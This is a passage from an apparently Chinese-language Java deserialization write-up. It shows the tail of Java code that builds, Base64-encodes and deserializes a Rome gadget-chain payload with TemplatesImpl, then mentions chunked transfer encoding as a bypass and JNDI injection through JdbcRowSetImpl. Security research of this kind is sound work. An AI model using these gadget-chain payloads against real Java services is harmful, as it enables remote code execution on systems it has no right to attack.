 ```java

        setFieldValue(bean,"_beanClass", Templates.class);
        setFieldValue(bean,"_obj",templates);
        ByteArrayOutputStream byteArrayOutputStream = new ByteArrayOutputStream();
        ObjectOutputStream objectOutputStream = new ObjectOutputStream(byteArrayOutputStream);
        objectOutputStream.writeObject(map);
        System.out.println(new String(Base64.getEncoder().encode(byteArrayOutputStream.toByteArray())));
        System.out.println(new String(Base64.getEncoder().encode(byteArrayOutputStream.toByteArray())).length());
        ByteArrayInputStream bais=new ByteArrayInputStream(byteArrayOutputStream.toByteArray());
        ObjectInputStream ois=new ObjectInputStream(bais);
        ois.readObject();
    }
}

```

## 改进4

利用分块传输技术，看看这个https://xz.aliyun.com/t/10824#toc-3

## 利用Rome链触发JNDI注入

在`JdbcRowSetImpl`类中，存在`getDatabaseMetaData()`方法

![image-20221111204849705](img/image-20221111204849705.png)



rome链中，就是触发了`getter`方法，所以也可以通过这个链子达到JNDI注入

connect方法：

![image-20221111205051782](img/image-20221111205051782.png)
